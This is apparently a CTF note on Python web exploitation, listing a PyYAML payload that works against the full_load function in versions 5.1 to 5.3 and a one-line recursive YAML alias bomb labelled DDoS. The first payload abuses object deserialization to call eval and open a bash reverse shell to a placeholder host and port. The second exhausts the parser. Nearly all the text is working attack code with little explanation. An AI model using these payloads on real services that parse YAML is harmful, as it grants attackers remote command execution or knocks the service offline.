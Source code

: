 tags:: CTFWEB/Python

- # payload
	- 针对5.1 ~ 5.3版本的full_loader函数
		- ```yaml
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/ip/port <&1\"')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  ```
- # DDoS
	- `{a: &b [*b]}`
